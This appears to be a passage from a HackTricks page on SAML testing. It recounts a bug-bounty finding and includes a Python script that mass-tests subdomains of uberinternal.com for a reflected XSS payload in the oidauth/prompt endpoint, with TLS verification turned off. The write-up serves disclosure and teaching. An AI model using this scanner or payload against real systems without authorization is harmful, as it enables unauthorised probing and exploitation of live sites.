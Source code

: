 Using [**SAMLExtractor**](https://github.com/fadyosman/SAMLExtractor) that can take a list of URLs and then give you back the callback (SAML consume) URL, I decided to feed the tool with all subdomains of `uberinternal.com` to see if there are other domains that use the same library and there was.

What I did next was to create a script that calls the vulnerable page `oidauth/prompt` and try the XSS and if my input is reflected it gives me a nice vulnerable message.

```python
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from colorama import init ,Fore, Back, Style
init()

with open("/home/fady/uberSAMLOIDAUTH") as urlList:
            for url in urlList:
                url2 = url.strip().split("oidauth")[0] + "oidauth/prompt?base=javascript%3Aalert(123)%3B%2F%2FFady&return_to=%2F%3Fopenid_c%3D1520758585.42StPDwQ%3D%3D&splash_disabled=1"
                request = requests.get(url2, allow_redirects=True,verify=False)
                doesit = Fore.RED + "no"
                if ("Fady" in request.content):
                    doesit = Fore.GREEN + "yes"
                print(Fore.WHITE + url2)
                print(Fore.WHITE + "Len : " + str(len(request.content)) + "   Vulnerable : " + doesit)
```

## References

The attacks were obtained from [https://epi052.gitlab.io/notes-to-self/blog/2019-03-13-how-to-test-saml-a-methodology-part-two/](https://epi052.gitlab.io/notes-to-self/blog/2019-03-13-how-to-test-saml-a-methodology-part-two/)\
You can find additional resources and write-ups in [https://epi052.gitlab.io/notes-to-self/blog/2019-03-16-how-to-test-saml-a-methodology-part-three/](https://epi052.gitlab.io/notes-to-self/blog/2019-03-16-how-to-test-saml-a-methodology-part-three/)

<details><summary><a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ HackTricks LIVE Twitch</strong></a> <strong>Wednesdays 5.30pm (UTC) 🎙️ -</strong> <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary></details>
